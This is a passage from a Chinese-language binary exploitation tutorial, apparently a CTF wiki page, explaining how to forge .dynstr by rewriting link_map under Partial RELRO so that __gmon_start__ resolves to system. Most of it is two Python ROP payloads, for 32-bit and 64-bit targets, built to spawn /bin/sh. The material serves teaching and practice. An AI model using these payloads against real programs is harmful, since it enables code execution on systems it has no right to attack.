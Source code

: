 Partial RELRO 的第二种方法是直接修改 `link_map`，将 `l_info[DT_STRTAB]` 指向构造出来的 `Elf32_Dyn`（`Elf64_Dyn`）来伪造 `.dynstr`。然后呼叫 `__gmon_start__` 并在对应 `st_name` 的地址处放上 `"system\x00"`。不过需要有特定的 Gadget 才有办法在不能泄漏的情况下使 `*(*(pointer)+offset)=value`。32 位下构造如下 payload：

```python
def memcpy(dst, src, length):
	return p32(memcpy_plt) + p32(pop3_ret) + p32(dst) + p32(src) + p32(length)

payload = (
	((
		'A' * 18 + # padding
		p32(buf + 1024 + 4) # set esp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		memcpy(buf + 1024 + 32, got1, 4) + # buf+1024+20
		memcpy(buf, 0, 56) + # buf+1024+40
		memcpy(buf + 52, buf + 2048, 4) + # buf+1024+60
		memcpy(buf + 1024 + 88, got1, 4) + # buf+1024+80
		memcpy(0, buf, 56) + # buf+1024+100
		p32(gmon_start_plt) + p32(0xdeadbeef) + p32(buf + 2048 + 20)
	).ljust(2048, '\x00') + # buf+2048
	p32(buf + 2048 + 4) +
	p32(5) +
	p32(buf + 2048 + 12 - st_name) +
	# buf+2048+12
	'system\x00\x00' +
	'/bin/sh\x00'
)
```

64 位下对 `link_map` 的修改同样借助了泄漏来实现：

```python
payload = (
	((
		'A' * 14 + # padding
		p64(buf + 1024 - 8) + # set rbp=buf+1024-8
		p64(leave_ret) # stack pivot ; set rsp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		memcpy(buf + 1024 + 160, got1, 8) + # buf+1024+120
		memcpy(buf, 0, 112) + # buf+1024+240
		memcpy(buf + 104, buf + 2048, 8) + # buf+1024+360
		write(1, buf, 112) + # buf+1024+480
		memcpy(buf + 1024 + 640, got1, 8) + # buf+1024+600
		read(0, 0, 112) + # buf+1024+720
		p64(pop_rdi_ret) +
		p64(buf + 2048 + 32) +
		p64(gmon_start_plt)
	).ljust(2048, '\x00') + # buf+2048
	p64(buf + 2048 + 8) +
	p64(5) +
	p64(buf + 2048 + 24 - st_name) +
	# data+24
	'system\x00\x00' +
	'/bin/sh\x00'
)
```
